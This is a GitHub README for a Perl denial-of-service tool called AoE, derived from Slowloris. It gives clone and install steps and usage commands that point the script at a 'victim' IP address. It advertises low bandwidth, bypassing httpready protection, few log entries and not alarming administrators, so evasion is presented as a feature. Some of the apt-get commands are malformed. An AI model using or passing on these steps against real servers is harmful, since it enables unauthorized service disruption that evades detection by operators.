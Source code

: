 # AoE
A Perl DoS Script

Area of Effect [AoE] both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.

Credit to the Author : Laera Loris [Original Script Slowloris]

<br><b>Kali Linux/Installation</b></br>
$ apt-get install update<br>
$ apt-get install upgrade<br>
$ apt-get install perl<br>
$ git clone https://github.com/5inco/AoE.git<br>
$ cd AoE<br>
$ ls<br>
$ perl aoe.pl -options<br>

<br><b>USAGE:</b></br>
$ perl aoe.pl -options<br>
$ perl aoe.pl -dns [www.websiteip.com]<br>
<br><b>EXAMPLE:</b></br>
$ perl aoe.pl -dns xxx.xx.xx.xxx <----victimipaddress<br>
Video Tutorial Link: https://youtu.be/f6I-RnnpIt8<br>
